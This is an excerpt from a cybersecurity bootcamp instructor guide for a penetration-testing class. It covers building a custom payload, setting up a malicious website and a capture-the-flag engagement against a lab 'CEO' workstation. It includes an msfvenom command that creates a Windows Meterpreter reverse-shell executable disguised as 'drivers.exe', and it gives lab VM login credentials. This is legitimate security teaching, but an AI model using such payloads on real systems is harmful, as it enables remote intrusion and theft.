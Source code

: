 Point out the major milestones of this activity:

- Using `msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=172.16.203.164 LPORT=4444 -o /var/www/html/drivers.exe` to create a customized payload.

- Using `nano index.html` to create a malicious website.

Send students the following solution file and use it to guide your review:

- [Solution File: Creating Custom Payloads](Activities/01_Creating_Custom_Payloads/Solved/README.md)

### 05. Break (0:15)


### 06. Instructor Do: Intro to the Pen Testing Homework (0:05)

Explain to class that we'll now get started on a pen testing homework activity. We have set aside time during class for questions and to provide additional support if needed.

Explain that this activity, you will complete a capture the flag activity. You will need to answer a set of questions and fill out a report template as your homework submission.

Explain to the students that before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
- Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
- Then click `Start Server`. 

### 07. Student Do: Pen Testing Homework (To End of Class) 

Explain the following:

- In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- You will use all of the steps of a pentest: 

1. Planning and Reconnaissance
2. Scanning
3. Exploitation
4. Post Exploitation
5. Reporting

- The assignment concludes with a report about your findings.

#### The Scenario

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `secretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

Send students the following activity file:

- [Activity File: Penetration Test Engagement](Activities/07_Pentest_Engagement/Unsolved/README.md)

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
